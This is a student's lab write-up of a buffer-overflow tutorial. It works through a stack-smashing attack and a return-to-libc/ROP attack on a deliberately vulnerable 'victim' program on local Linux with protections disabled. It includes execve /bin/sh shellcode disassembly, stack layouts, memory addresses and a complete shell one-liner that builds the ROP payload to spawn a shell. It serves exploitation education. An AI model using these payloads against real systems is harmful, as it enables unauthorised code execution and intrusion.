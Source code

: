 
# Overview

The aim of this project is to demonstrate a basic stack smashing attack on a simple Hello World program. Though this is simple, it's also a good overview how a buffer overflow can be used to gain shell access, and also walks us through the protections the operating system has to protect from these attacks.

For this project, I’m using a relatively newer installation of Arch. This means that I may run into trouble with, as the top of this tutorial indicates, newer versions of Linux. 

#### Some assembly required
I began by compiling and running the provided shell.c code. Understanding the assembly code: it seems to load the string bin/sh into somewhere in memory, and then executes it by using the sys call command, which I think executes whatever is in a certain register. I also understand the idea of labeling and using the hex code 0xdeadbeef to mark where in memory it is.

At first, I did not think that it was working at all. I began to do the rest and was running into trouble. Then I discovered that it was running the whole time and I’d been trying to do the rest of the commands from within the execvp shell! (It seemed to be missing some environment variables).

(Note: On Arch, when I run objdump, the output is different from what the tutorial indicates it should be. Instead of one line with ``` 4004d6:       69 6e 2f 73 68 00 ef    imul ```, my output is spread into multiple lines, which I guess must be some kind of breaking down of the operation. When I run “cat shell code” it is the same, however. Upon switching to Ubuntu it is the same.)

The entire program dumps to:
```
00000000004004aa <needle0>:
  4004aa:	eb 0e                	jmp    4004ba <there>

00000000004004ac <here>:
  4004ac:	5f                   	pop    %rdi
  4004ad:	48 31 c0             	xor    %rax,%rax
  4004b0:	b0 3b                	mov    $0x3b,%al
  4004b2:	48 31 f6             	xor    %rsi,%rsi
  4004b5:	48 31 d2             	xor    %rdx,%rdx
  4004b8:	0f 05                	syscall 

00000000004004ba <there>:
  4004ba:	e8 ed ff ff ff       	callq  4004ac <here>
  4004bf:	2f                   	(bad)  
  4004c0:	62                   	(bad)  
  4004c1:	69                   	.byte 0x69
  4004c2:	6e                   	outsb  %ds:(%rsi),(%dx)
  4004c3:	2f                   	(bad)  
  4004c4:	73 68                	jae    40052e <__libc_csu_init+0x4e>
	...
```

### Learn Bad C in only 1 hour!
The victim.c code seems fairly simple. All it does is take in a char array and print it. Of course, if we overflow the array, fun can happen…
Also: It is impressive how extensive the protections that the OS puts in are these days. I can see how all the things we are disabling would make our ROP attack impossible: if we can’t find or execute our code, our attack is worthless. Successful exploits on a live machine must be very complicated.

Here is a simple diagram of how our code is trying to work. We're attempting to turn:
```
 _______________
|name array     |
|(64 bytes)     |
|               |
|_______________|
|RBP (8 bytes)  |
|ReturnAddr     |
```
into:

```
 _______________
|shellcode      |
|(32 bytes)     |
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&shellcode	|
```

_(Sam: I had to use “x86_64” for the architecture since my Arch install did not recognize the ‘arch’ architecture. My address was 0x7fffffffe5a0.)_

That way, when the program finishes, it goes to execute the address of shellcode, instead of the return address.

### The importance of being patched:
The code breaks down as follows:
First, obtain the address of the code in memory using the ps command. Then use the program to print out the location of the char array. Find out the offset to know how far you have to write the buffer to overflow it. Just as with the example, my code was 88 away from the address.

Next, the xxd script inserts the entire shell script as an input in the char array. This, followed by 40 zeros and the address of the _name_ array, once again causes the program to jump to and execute the stored therein (which launches ```/bin/sh```) This is the same kind of buffer overflow as the previous one. What this exploit offers over the first is it defeats ASLR, by dynamically finding the address of the program in memory.

Note: Upon visual inspection, it seems my version of Ubuntu organizes the stack at a different position in memory than the example code assumed. Specifically, the tutorial assumed that it would be prefixed with ```0x7fff```, and that would be the offset that the stack pointer offsets from. (That’s why it does ``0x7fff$sp+88``). I noticed that sometimes my program would be running at ```0x7ffe```, however, and that is why it was failing. If I hardcode that prefix when running the exploit, I successfully get a shell. So we require a bit of visual inspection to find which script to run. 

### Go-go-gadgets:
I used the revised code linked at the top of the page. Using this, I generated code based on the linked code. The variables we had were:

```
buffer:		0x7fffffffe5a0
libc: 		0x7ffff7a15000
system:		0x7ffff7a15000 + 0x46590 = 0x7ffff7a5b590
gadgets:	0x7ffff7a15000 + 0x22b9a = 0x7ffff7a37b9a
bash: 		0x7fffffffe5a0 + 64d + 8d + 24d = 0x7fffffffe600 
```
The code we used to use the ROP exploit was therefore:

```
(((printf %0144d 0; printf %016x 0x7ffff7a37b9a | tac -rs..; printf %016x 0x7fffffffe600 | tac -rs..; printf %016x 0x7ffff7a5b590 | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | ./victim
```

Which loads the right addresses onto the stack! This allows the program to return to the gadget instead of the OS, which executes our program!
